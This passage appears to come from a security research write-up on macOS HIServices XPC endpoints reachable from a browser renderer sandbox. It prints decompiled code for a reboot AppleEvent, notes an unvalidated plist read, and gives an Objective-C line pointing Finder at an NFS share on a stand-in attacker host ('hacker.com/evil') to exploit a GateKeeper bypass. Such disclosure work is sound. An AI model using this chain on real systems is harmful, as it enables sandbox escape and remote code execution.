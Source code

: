 ```
00000000000483d3 T _HIS_XPC_SetCapsLockModifierState
000000000004822e T _HIS_XPC_SetNetworkLocation
```

In `SendAppleEventToSystemProcess` you can just reboot the system with an AppleEvent without any privilege, even inside the renderer sandbox.

```c
event = AECreateDesc('psn ', &dataPtr, 8LL, &result);
if ( !event )
{
   event = AECreateAppleEvent('aevt', theAEEventID, &result, -1, 0, &theAppleEvent);
   if ( !event )
   {
      if ( theAEEventID == 'rest' || theAEEventID == 'shut' || theAEEventID == 'rlgo' )
      {
         PSN.highLongOfPSN = 0;
         AEPutAttributePtr(&theAppleEvent, 'rsst', 'magn', &PSN, 4LL);
      }
      event = AESendMessage(&theAppleEvent, 0LL, 1, -1LL);
      if ( v11[0] && !event )
      {
         PSN = (ProcessSerialNumber)&_mh_execute_header;
         SetFrontProcess(&PSN);
      }
   }
}
```

`_HIS_XPC_CFPreferencesCopyValue` does not validate the path at all so you can read arbitrary plist file. This guided me to discover a real long standing CoreFoundation bug.

As for the `HIS_XPC_RevealFileInFinder` you can locate arbitrary file url in Finder app. I noticed that I can just specify a NFS share (`/net/hostname/blah`) like this:

```objc
xpc_object_t url = _CFXPCCreateXPCObjectFromCFObject(CFURLCreateWithString(kCFAllocatorDefault, CFSTR("file:///net/hacker.com/evil/share/Dash.app"), NULL));
```

There was a GateKeeper bypass at the time (<10.14.5) that remote contents from NFS share have no quarantine flag:

[MacOS X GateKeeper Bypass](https://www.fcvl.net/vulnerabilities/macosx-gatekeeper-bypass)

Here is the interesting part. When finder locates this remote resource, it automatically registers the app to the LaunchService.
